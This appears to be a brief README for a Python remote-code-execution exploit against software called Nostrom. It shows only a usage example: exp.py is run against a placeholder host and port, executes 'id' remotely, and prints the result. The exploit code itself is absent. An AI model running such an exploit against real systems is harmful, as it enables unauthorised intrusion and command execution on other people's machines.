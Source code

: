 # Nostrom RCE Python3 Exploit Code:


## Usage:

<pre>
$ python3 ./exp.py vulnerable.host 8080 id

uid=65534 gid=65534
</pre>

